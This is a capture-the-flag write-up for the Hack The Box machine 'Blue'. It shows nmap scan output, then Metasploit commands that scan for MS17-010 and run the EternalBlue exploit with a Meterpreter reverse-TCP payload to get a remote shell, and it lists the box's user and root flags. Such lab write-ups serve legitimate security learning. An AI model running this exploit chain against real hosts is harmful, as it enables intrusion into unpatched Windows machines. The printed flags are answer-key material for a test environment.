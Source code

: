 
# Blue <!-- omit in toc -->


# Table of Contents <!-- omit in toc -->
- [Scan Results](#scan-results)
  - [Nmap](#nmap)
- [Expolit](#expolit)
- [Post Exploit](#post-exploit)
- [Flags](#flags)
    - [**User Flag**](#user-flag)
    - [**Root Flag**](#root-flag)

# Scan Results

## Nmap
```
# Nmap 7.80 scan initiated Tue Mar  3 16:46:47 2020 as: nmap -sC -sV -oA ./Documents/HackTheBox/Blue/Scans/nmap 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.099s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8s, deviation: 1s, median: 7s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-03-03T16:48:01+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-03T16:47:59
|_  start_date: 2020-03-03T16:42:50

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  3 16:48:00 2020 -- 1 IP address (1 host up) scanned in 73.15 seconds
```

**Notice:**

 1. The script tells us this is a windows 7 service pack 1 machine.
 2. The computer name is: haris-PC. might be a user called haris.


# Expolit
This box has many ports open. The results of the nmap script tells us that we should look for something that has to do with smb on windows 7 service pack 1. 

For more hints we can look at the web page on hackthebox ([Blue](https://www.hackthebox.eu/home/machines/profile/51)). This is a simple box based on a CVE.

Searching through exploit-DB shows alot of options, the most promessing exploits refer to EternalBlue (MS17-010) exploit. Searching google yields this [result](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_ms17_010) - Metasploit has a scanner for this exact exploit.

So, lets open msfconsole and type:

```
use auxiliary/scanner/smb/smb_ms17_010
```

Setting RHOSTS to the box ip 10.10.10.40 we get:

![Users](./Pictures/Scanner_results.png)

The box is vulnerable to eternalblue exploit.

So to use it:

```
use exploit/windows/smb/ms17_010_eternalblue
````

Set RHOSTS to the box ip, and set the payload as meterpreter where LHOST is our ip.

```
set payload windows/x64/meterpreter/reverse_tcp
```

We get a meterpreter session on the box.

# Post Exploit

Navigate to `C:\Users` to see which users are on the box. Just like we saw on the nmap results, there is a user called haris, and also a folder for the Administrator.

![Users](./Pictures/Users.png)

The flags are on the Desktop of each user.

# Flags

### **User Flag**
in the desktoip of user haris: **4c546aea7dbee75cbd71de245c8deea9**

### **Root Flag**
in the desktop of the Administrator: **ff548eb71e920ff6c08843ce9df4e717**
